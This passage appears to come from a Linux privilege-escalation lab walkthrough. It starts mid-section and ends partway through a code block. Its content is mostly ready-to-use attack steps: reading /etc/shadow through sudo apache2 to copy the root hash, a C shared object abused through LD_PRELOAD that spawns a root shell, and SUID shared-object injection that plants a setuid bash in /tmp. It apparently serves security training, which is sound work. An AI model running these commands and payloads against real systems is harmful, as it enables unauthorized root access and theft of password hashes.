 **Exploitation:**

1. In command prompt type: `sudo apache2 -f /etc/shadow`
2. From the output, copy the root hash.

### Sudo (LD\_PRELOAD)

**Detection:**

1. In command prompt type: `sudo -l`
2. From the output, notice that the `LD_PRELOAD` environment variable is intact.

**Exploitation:**

1. Open a text editor and type:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

1. Save the file as x.c
2. In command prompt type: `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
3. In command prompt type: `sudo LD_PRELOAD=/tmp/x.so apache2`
4. In command prompt type: `id`

### SUID (Shared Object Injection)

**Detection:**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command line type: `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.

**Exploitation:**

1. In command prompt type: `mkdir /home/user/.config`
2. In command prompt type: `cd /home/user/.config`
3. Open a text editor and type:

```c
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
```
